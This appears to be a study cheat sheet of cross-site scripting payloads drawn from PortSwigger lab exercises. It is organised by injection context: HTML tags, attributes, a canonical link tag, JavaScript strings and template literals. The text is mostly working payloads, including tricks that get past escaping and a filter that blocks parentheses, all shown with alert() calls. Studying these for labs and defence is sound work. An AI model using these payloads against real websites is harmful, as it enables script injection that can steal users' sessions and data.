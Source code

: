 [[XSS]]
# Between HTML tags
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>

<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

# XSS in HTML tag attributes
```html
"><script>alert(document.domain)</script>
```

```html
" autofocus onfocus=alert(document.domain) x="
```

```html
<a href="javascript:alert(document.domain)">
```
##### Using `accesskey` to invoke some JS code placed in a attribute of `canonical` tag.
Final payload:
```
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
How it looks in DOM:
```html
<link rel="canonical" href="https://0ace00fb0457e86f80a1210c00d900da.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
```

# XSS into JavaScript
##### Terminating the existing script
```js
<script>
...
var input = 'controllable data here';
...
</script>
```
Payload:
```html
</script><img src=1 onerror=alert(document.domain)>
```

##### Breaking out of a JavaScript string
```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

##### Bypass escaping single quotes with a backslash
For example, suppose that the input:
`';alert(document.domain)//`

gets converted to:
`\';alert(document.domain)//`

You can now use the alternative payload:
`\';alert(document.domain)//`

which gets converted to:
`\\';alert(document.domain)//`

##### WAF blocks some characters
https://portswigger.net/research/xss-without-parentheses-and-semi-colons
Sink:
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finally(_ =&gt; window.location = '/')">Back to Blog</a>
```
Payload:
```
https://0a1e00d90352e31e86f7868200e60090.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
HTML:
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27'}).finally(_ =&gt; window.location = '/')">Back to Blog</a>
```
Parsed JS:
```js
fetch('/analytics', {
    method: 'post',
    body: '/post?postId=5&'
}, x = x => {
    throw /**/
    onerror = alert,
    1337
}
, toString = x, window + '', {
    x: ''
}).finally(_ => window.location = '/')
```
##### Making use of HTML-encoding
Context:
```html
<a href="#" onclick="... var input='controllable data here'; ...">
```
payload:
```html
&apos;-alert(document.domain)-&apos;
```

##### XSS in JavaScript template literals
Example:
```html
<script> ... var input = `controllable data here`; ... </script>
```
payload:
```js
${alert(document.domain)}
```


